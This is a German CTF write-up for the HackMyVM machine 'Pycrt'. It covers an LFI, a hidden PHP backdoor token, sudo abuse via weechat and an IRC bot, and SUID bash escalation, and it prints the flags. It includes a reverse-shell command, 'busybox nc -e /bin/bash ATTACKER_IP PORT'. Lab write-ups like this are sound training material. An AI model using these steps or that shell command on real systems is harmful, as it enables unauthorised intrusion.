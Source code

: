 # Pycrt - HackMyVM (Medium)
 
![Pycrt.png](Pycrt.png)

## Übersicht

*   **VM:** Pycrt
*   **Plattform:** (https://hackmyvm.eu/machines/machine.php?vm=Pycrt)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 16. Mai 2025
*   **Original-Writeup:** https://alientec1908.github.io/Pycrt_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Die "Pycrt"-Maschine auf HackMyVM (Medium) erforderte eine mehrstufige Privilegienerweiterung. Der Lösungsweg begann mit der Identifizierung offener Dienste (SSH, HTTP, IRC). Eine Local File Inclusion (LFI) im Webserver führte zur Entdeckung einer Remote Code Execution (RCE) Backdoor im PHP-Skript `bydataset.php`. Dies ermöglichte initialen Zugriff als `www-data`. Die Rechte wurden dann über eine unsichere `sudo`-Regel (`weechat`) auf den Benutzer `chatlake` erweitert. Eine weitere `sudo`-Regel erlaubte `chatlake`, einen IRC-Bot-Dienst zu starten, der auf ASCII-kodierte Befehle im IRC reagierte und diese als Benutzer `pycrtlake` ausführte, was zu einer Shell als `pycrtlake` führte. Die finale Eskalation zu Root erfolgte durch Ausnutzung einer SUID-gesetzten `/bin/bash`-Executable mittels `bash -p`.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `vi` (Editor)
*   `curl`
*   `nmap`
*   `nikto`
*   `nc` (Netcat)
*   `openssl`
*   `git` (zum Klonen von Exploits)
*   `python2`
*   `python3` (für RCE- und Payload-Skripte)
*   `gobuster`
*   `feroxbuster`
*   `dirb`
*   `wfuzz`
*   `base64`
*   `Irssi` / `WeeChat` (IRC-Clients)
*   `xvfb-run` (impliziert für gtkwave Exploit)
*   `script` (für TTY-Stabilisierung)
*   Standard Linux-Befehle (`ls`, `cat`, `find`, `cd`, `chmod`, etc.)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Pycrt" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Enumeration:**
    *   IP-Adresse (`192.168.2.192`) via `arp-scan` gefunden und `/etc/hosts` Eintrag für `pycrt.hmv` erstellt.
    *   `nmap` identifizierte offene Ports: 22 (SSH OpenSSH 8.4p1), 80 (HTTP Apache 2.4.62), 6667 (IRC InspIRCd-3).
    *   `nikto` auf Port 80 zeigte fehlende Sicherheitsheader, aber keine kritischen direkten Schwachstellen.

2.  **Web Enumeration & LFI-Entdeckung:**
    *   `gobuster` und `feroxbuster` auf Port 80 führten zur Entdeckung des Verzeichnisses `/ShadowSec/`.
    *   `dirb` fand im `/ShadowSec/`-Verzeichnis die Datei `bydataset.php`.
    *   `wfuzz` identifizierte eine Local File Inclusion (LFI)-Schwachstelle im `file`-Parameter von `bydataset.php`, was das Lesen von `/etc/passwd` ermöglichte.

3.  **Initial Access (RCE via PHP Backdoor als `www-data`):**
    *   Mittels LFI und `php://filter` wurde der Quellcode von `bydataset.php` ausgelesen.
    *   Der Quellcode enthielt eine Backdoor: POST-Anfragen mit korrektem `auth`-Token (`LetMeIn123!`) und einer speziell formatierten (`cmd:`-präfix, base64, reversed) `payload` erlaubten Remote Code Execution (RCE).
    *   Ein Python-Skript wurde erstellt (`rce_brute.py`), um Befehle über diese RCE auszuführen.
    *   Eine Python-basierte Reverse Shell wurde über die RCE als Benutzer `www-data` etabliert.

4.  **Privilege Escalation (von `www-data` zu `chatlake`):**
    *   `sudo -l` als `www-data` zeigte, dass `/usr/bin/weechat` als Benutzer `chatlake` ohne Passwort ausgeführt werden konnte.
    *   Diese `sudo`-Regel wurde ausgenutzt (vermutlich durch `/exec` in WeeChat oder eine ähnliche Methode), um eine Shell als `chatlake` zu erlangen.

5.  **Privilege Escalation (von `chatlake` zu `pycrtlake`):**
    *   `sudo -l` als `chatlake` zeigte, dass `/usr/bin/systemctl start irc_bot.service` als `ALL` (Root) ohne Passwort ausgeführt werden konnte.
    *   Der `irc_bot.service` wurde gestartet.
    *   Durch Interaktion mit dem IRC-Bot (vermutlich Nick `admin` oder `Todd` in Kanal `#chan1`) über einen IRC-Client (Irssi/WeeChat) konnten Befehle an den Bot gesendet werden.
    *   Der Bot erwartete Befehle als eine Sequenz von ASCII-Werten, abgeschlossen mit `:)`. Diese Befehle wurden als Benutzer `pycrtlake` ausgeführt.
    *   Eine Reverse-Shell-Payload (z.B. `busybox nc -e /bin/bash ATTACKER_IP PORT`) wurde ASCII-kodiert und an den Bot gesendet, was zu einer Shell als `pycrtlake` führte.

6.  **Privilege Escalation (von `pycrtlake` zu `root`):**
    *   `sudo -l` als `pycrtlake` zeigte, dass `/usr/bin/gtkwave` als `ALL` (Root) ohne Passwort ausgeführt werden konnte.
    *   Die Datei `/bin/bash` wurde als SUID-Root (`-rwsr-sr-x`) identifiziert.
    *   Durch Ausführen von `/bin/bash -p` in der `pycrtlake`-Shell wurde eine Shell mit effektiven Root-Rechten (`euid=0(root)`) erlangt. (Der `gtkwave`-Sudo-Eintrag könnte hier eine falsche Fährte gewesen sein oder eine nicht primär genutzte Möglichkeit).

## Wichtige Schwachstellen und Konzepte

*   **Local File Inclusion (LFI):** In `bydataset.php` über den `file`-Parameter, ermöglichte das Lesen beliebiger Dateien und des Quellcodes der PHP-Datei selbst.
*   **Remote Code Execution (RCE):** Versteckte Backdoor in `bydataset.php`, ausgelöst durch eine korrekt formatierte POST-Anfrage, erlaubte Befehlsausführung als `www-data`.
*   **Unsichere `sudo`-Konfigurationen:**
    *   `www-data` konnte `weechat` als `chatlake` ausführen (ermöglichte Eskalation zu `chatlake`).
    *   `chatlake` konnte `systemctl start irc_bot.service` als Root ausführen (Schlüssel zur Interaktion mit dem IRC-Bot).
    *   `pycrtlake` konnte `gtkwave` als Root ausführen (potenzieller, aber nicht primär genutzter Vektor im finalen Schritt).
*   **Command Execution via IRC Bot:** Der `irc_bot.service` nahm ASCII-kodierte Befehle entgegen und führte sie als `pycrtlake` aus.
*   **SUID Exploit (bash -p):** Eine SUID-Root gesetzte `/bin/bash`-Executable wurde mit der `-p`-Option ausgenutzt, um Root-Rechte zu erlangen.

## Flags

*   **User Flag (`/home/chatlake/user.txt`):** `flag{b42baba466402e32157a1cbba819664e}`
*   **Root Flag (`/root/root.txt`):** `flag{e80ecc46ca5e00bf8a51c47f0cc3e868}`

## Tags

`HackMyVM`, `Pycrt`, `Medium`, `LFI`, `RCE`, `PHP Backdoor`, `Sudo Exploitation`, `IRC Bot`, `SUID Exploit`, `bash -p`, `Linux`, `Web`, `Privilege Escalation`
